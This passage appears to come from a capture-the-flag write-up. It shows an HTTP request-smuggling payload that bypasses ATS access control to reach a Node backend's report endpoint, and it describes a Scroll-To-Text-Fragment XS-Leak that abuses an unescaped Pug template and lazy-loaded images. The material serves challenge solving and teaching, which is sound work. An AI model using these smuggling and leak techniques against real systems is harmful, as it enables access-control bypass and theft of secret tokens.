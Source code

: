 When the request is forwarded to the backend, however, Node does not see `xxx` as part of a new line.

```http
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked

3;[\n]xxx
139
0

POST /do-report HTTP/1.1
Host: localhost:8080
Content-Length: 103
Cookie: connect.sid=s%3A4Tp_E2HJcMliL0-HBIe2gRJe0STpIOZW.hoetvVdAqJdACwI4BwIrHCmQR1nPjgY2YOxQMbJsDmU
Content-Type: application/json

{"url":"http://localhost:8000/verify?token=TISC{c:n:9:4:i:7:c:n:e:m}#:~:text=TISC{1:3:3:7:l:3:4:k:1:a"}
0
```

Therefore, the `POST /do-report HTTP/1.1` request is processed as a second request instead.

This allows us to smuggle a request to the backend application, bypassing the access control implemented on ATS.

### Part 3 - Scroll-To-Text-Fragment (STTF) XS-Leak

First of all, notice in the `verify.pug` template that `username` is unescaped, since `!{...}` i used instead of `#{...}`.

```pug
.alert.alert-success(role='alert')
    | This token belongs to !{username}.
    | If !{username} asks for your token, you can give them this token: #{token}.
```

This allows us to inject HTML markup, but because of the strict Content Security Policy, we cannot perform XSS or CSS-based exfiltration.

```http
Content-Security-Policy: default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; 
```

[STTF](https://chromestatus.com/feature/4733392803332096) is a relatively new feature in Chromium, which allows scrolling to a specific portion of a page using a text snippet in the URL. This opens up possibilities for XS-Leaks.

Notice that the CSP allows the loading of arbitrary images. This can be combined with STTF to detect if a scroll occurred, leading to the loading of a lazy-loaded image.

In order to make sure that the lazy-loaded image does not load immediately after opening the page, a simple solution is to make use of Bootstrap's `min-vh-100` class - this ensures that the `div` will take up the entire viewport.

